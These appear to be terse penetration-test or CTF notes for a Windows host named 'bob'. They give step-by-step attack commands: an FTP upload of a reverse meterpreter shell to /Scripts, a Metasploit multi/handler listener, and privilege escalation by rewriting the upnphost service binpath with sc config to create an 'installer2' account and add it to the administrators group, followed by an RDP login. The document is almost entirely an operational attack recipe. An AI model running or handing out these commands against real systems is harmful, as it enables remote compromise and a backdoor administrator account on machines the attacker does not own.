

Hostname = bob?
you can upload to the /Scripts folder through ftp
upload a reverse metepreter shell

Then open msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
and run the reverse shell


once connected you can use the upnphost command at the command line to priv esc
sc config upnphost binpath= "C:\windows\system32\net user installer2 password3$ /add"
net start upnphost
sc config upnphost binpath= "C:\windows\system32\net localgroup administrators installer2 /add"
net start upnphost

then login with RDP and newly created account